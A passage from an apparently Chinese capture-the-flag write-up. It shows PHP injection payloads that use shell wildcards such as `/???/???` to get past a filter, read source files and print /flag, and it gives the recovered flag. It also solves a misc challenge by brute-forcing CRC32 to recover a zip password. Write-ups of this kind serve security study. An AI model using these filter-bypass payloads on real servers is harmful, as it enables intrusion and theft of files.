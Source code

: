 ```
?&gt;&lt;?=`/???/???%20/???/???/????/*`?&gt;
```

得到

[![](https://p5.ssl.qhimg.com/t0142a5adfe99671c98.png)](https://p5.ssl.qhimg.com/t0142a5adfe99671c98.png)

发现关键点

```
function getFlag()`{`
    $flag = file_get_contents('/flag');
    echo $flag;
`}`
```

我们直接读flag文件就好

```
?&gt;&lt;?=`/???/???%20/????`;?&gt;

```

[![](https://p3.ssl.qhimg.com/t01f52abc522d8c8fab.png)](https://p3.ssl.qhimg.com/t01f52abc522d8c8fab.png)

得到flag

```
flag`{`aa5237a5fc25af3fa07f1d724f7548d7`}`
```



## Misc1

下载用winrar打开

[![](https://p0.ssl.qhimg.com/t01401df72741f53c50.png)](https://p0.ssl.qhimg.com/t01401df72741f53c50.png)

很明显的长度为6的CRC32

我们用工具爆破一下

[![](https://p5.ssl.qhimg.com/t01a09045b59e790146.png)](https://p5.ssl.qhimg.com/t01a09045b59e790146.png)

[![](https://p2.ssl.qhimg.com/t01aae0837644c77dee.png)](https://p2.ssl.qhimg.com/t01aae0837644c77dee.png)

[![](https://p1.ssl.qhimg.com/t0172a98fb202a7f887.png)](https://p1.ssl.qhimg.com/t0172a98fb202a7f887.png)

得到压缩包密码

```
forum_91ctf_com_66
```
